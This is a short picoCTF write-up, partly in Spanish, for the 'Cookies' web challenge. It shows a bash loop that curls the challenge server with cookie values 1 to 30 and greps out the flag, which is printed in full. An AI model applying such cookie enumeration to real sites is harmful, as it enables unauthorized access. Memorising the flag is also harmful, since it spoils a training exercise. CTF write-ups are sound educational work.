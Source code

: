 #### Description

Who doesn't love cookies? Try to figure out the best one. [http://mercury.picoctf.net:29649/](http://mercury.picoctf.net:29649/)


#### Hints
1. None


### Solucion
Tenemos varias cookies y en donde esta la bandera puede ser del 1 al 30, entonces, hacemos un ciclo for donde recorda del uno al treinta, donde el curl o sea el link sea silencioso con la -s y al encabezado de la cookie le cambie el valor con i del 1 al 30 eso va recorrer el ciclo, finalmente solo muestra donde empiece la bandera que empieza con picoCTF{., obtenemos la bandera.
```
karymeZapmen-picoctf@webshell:~$ for i in {1..30}; do curl -s http://mercury.picoctf.net:29649/check -H "Cookie: name=$i"; done | grep 'picoCTF{'
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>
karymeZapmen-picoctf@webshell:~$             <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}</code></p>

picoCTF{3v3ry1_l0v3s_c00k135_a1f5bdb7}
```